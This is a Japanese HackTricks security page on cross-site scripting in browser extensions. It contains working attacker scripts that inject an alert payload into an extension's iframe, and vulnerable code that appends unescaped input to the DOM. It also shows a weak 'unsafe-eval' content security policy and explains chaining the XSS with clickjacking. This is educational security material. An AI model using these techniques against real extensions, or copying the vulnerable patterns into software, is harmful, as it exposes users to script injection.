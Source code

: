 # BrowExt - XSSの例

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## Iframe上のXSS

**コンテンツスクリプト**は、iFrameのソースのパラメータに**URLを指定して**Iframeを作成します：
```javascript
chrome.storage.local.get("message", result =>
{
frame.src = chrome.runtime.getURL("message.html") +
"?message=" + encodeURIComponent(result.message) +
"&url=https://example.net/explanation";
});
```
公開されているHTMLページ：**`message.html`**、**ブラウザ**からアクセス可能で、以下のようなコードが含まれています：
```java
$(() =>
{
let params = new URLSearchParams(location.search);
$(document.body).append(params.get("message") + " <button>Explain</button>");
$("body > button").click(() =>
{
chrome.tabs.create({ url: params.get("url") });
});
});
```
悪意のあるページは、以下のようなスクリプトを実行して、メッセージを**XSS payload**に変更します：
```javascript
setTimeout(() =>
{
let frame = document.querySelector("iframe:last-child");
let src = frame.src;

// Remove existing query parameters
src = src.replace(/\?.*/, "");

// Add malicious query parameters
src += "?message=" + encodeURIComponent("<script>alert('XSS')</script>");

// Load into frame
frame.src = src;
}, 1000);
```
甘いContent Security Policyのように
```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```
実行を許可します。

XSSを意図的にトリガーする別の方法は、以下を実行することです：
```javascript
let frame = document.createElement("iframe");
frame.src = "chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?message="
+ encodeURIComponent("<script>alert('XSS')</script>");
document.body.appendChild(frame);
```
## DOMベースのXSS + クリックジャッキング

最初の脆弱性は、**`/html/bookmarks.html`** にあるDOMベースのクロスサイトスクリプティング（XSS）脆弱性です。以下は、含まれている **`bookmarks.js`** の脆弱なJavaScriptです：
```javascript
$('#btAdd').click(function() {
var btname = $('#txtName').val();
if ($('.custom-button .name').filter(function() {
return $(this).text() === btname;
}).length) return false;

var span = $('<span class="custom-button">');
span.html('<span class="name">' + btname + '</span>');
span.append('<a href="javascript:void(0)" title="remove">x</a>');
span.attr('title', btname);
span.data('id', (new Date().getTime()));
$('div.custom-buttons .existing').append(span);
save_options();
});
```
上記のJavaScriptは、**`txtName`** テキストボックスの**値**を取得し、**文字列の連結を使用してHTMLを構築**し、jQueryの[“append()”](https://api.jquery.com/append/)関数を介してDOMに追加します。

通常、Chrome拡張機能のContent Security Policy（CSP）は、この脆弱性が悪用されるのを防ぐべきです。しかし、[**‘unsafe-eval’**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)を介したこのポリシーの緩和とjQueryのDOM APIの使用により、これはまだ**悪用**され得ました。これは、jQueryのDOM APIの多くが[“globalEval()”](https://api.jquery.com/jquery.globaleval/)を使用しており、DOMに追加する際に自動的にスクリプトを[“eval()”](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)に渡すためです。

これは深刻な脆弱性ですが、**それを悪用するために必要なユーザーの操作**があるため、単独では悪用がかなり限定されます。被害者はページを開き、フィールドにCross-site Scripting（XSS）ペイロードを貼り付け、「Add」ボタンをクリックして悪用する必要があります。

この脆弱性をより効果的に悪用するために、攻撃を強化するために別の脆弱性（**clickjacking**）を利用します。

以下はChrome拡張機能のマニフェストからの抜粋です：
```json
...trimmed for brevity...
"web_accessible_resources": [
"_locales/*",
"bundle/*",
"dist/*",
"assets/*",
"font/*",
"html/bookmarks.html",
"css/*.css",
"js/*.js",
"js/jquery/*.js",
"js/lang/*"
],
...trimmed for brevity...
```
上記のセクションでは、拡張機能がその **`web_accessible_resources`** ポリシーで広範囲にわたることを示しています。

**`/html/bookmarks.html`** ページも **フレーム化** され、**クリックジャッキング** を介して **悪用** される可能性があります。これを悪用して、このページを私たちのウェブページにiframeで埋め込み、**フレームをDOM要素でオーバーレイしてレイアウトを再配置します**。これにより、被害者は **実際には下にある拡張機能とやり取りしていることに気づかない** ようになります。以下のアニメーションはこの効果を示しています（アニメーションは[**オリジナルの投稿記事**](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)で確認してください）。

## 参考文献

* [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
* [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または **HackTricksをPDFでダウンロードしたい** 場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションをチェックしてください。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や [**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**してください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有**してください。

</details>
